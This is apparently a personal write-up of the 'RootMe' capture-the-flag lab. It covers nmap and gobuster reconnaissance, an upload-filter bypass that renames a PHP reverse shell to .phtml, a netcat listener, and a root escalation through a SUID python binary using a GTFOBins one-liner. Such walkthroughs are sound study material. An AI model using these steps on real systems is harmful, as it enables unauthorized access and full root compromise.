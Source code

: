 # RootMe

# Task 2. Reconnaisance, general information about the target. 
    Linked IP of attach machine to 'rootme.thm' using (sudo nano /etc/hosts)
    - How many ports are open. (2)
        nmap rootme.thm -T5 -v 
            - 22/tcp open ssh
            - 80/tcp open http
    - What version of Apache is running. (2.4.29)
        nmap rootme.thm -sV -T5
            - 80/tcp open http  Apache httpd 2.4.29 ((Ubuntu))
    - What service is running on port 22. (ssh)
        nmap rootme.thm -T5 -v
            - 22/tcp open ssh
    - Find directories on the web server using the GoBuster tool. 
        gobuster -e -u rootme.thm -w common.txt 
            - cd into location of common.txt to simplify 
            - Output listed directories on the webserver, including /panel
    - What is the hidden directory. (/panel/)   

# Task 3. Getting a shell, upload file and get a reverse shell 
    -Once on '(rootme.thm)./panel' I coudl upload a file to the server
    - Used the php_reverse_shell.php from https://github.com/pentestmonkey/php-reverse-shell 
        - changed listening ip in file to my ip 
        - uploaded to server and got an error stating php files were not allowed
        - changed name of file from .php to .phtml, idea came from -> [title](https://book.hacktricks.xyz/pentesting-web/file-upload)
        - This worked and I confirmed by checking 'rootme.thm/uploads' which was another directory I found using GoBuster
        - Next, set up listener to receive a connection with the shell 
            nc -nlvp 1234 
        - Once in shell, ran 'find / -type f -name user.txt' to find file
        - cat /var/www/user.txt gave me the flag
Task 4. Privilege escalation, escalate privileges to root
    - Search for files with SUID permission, which file is weird? 
        find / -type f -user root -perm -u=s
            - this showed me files with SUID permission 
            - /usr/bin/python, was the weird file 
    - Find a form to escalate your privileges 
        python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
            - got this from [title](https://gtfobins.github.io/gtfobins/python/)
            - this escalated my priveleges to root
    - root.txt
        find / -type f -name root.txt 2> /dev/null
        cat /root/root.txt
            - This gave final flag



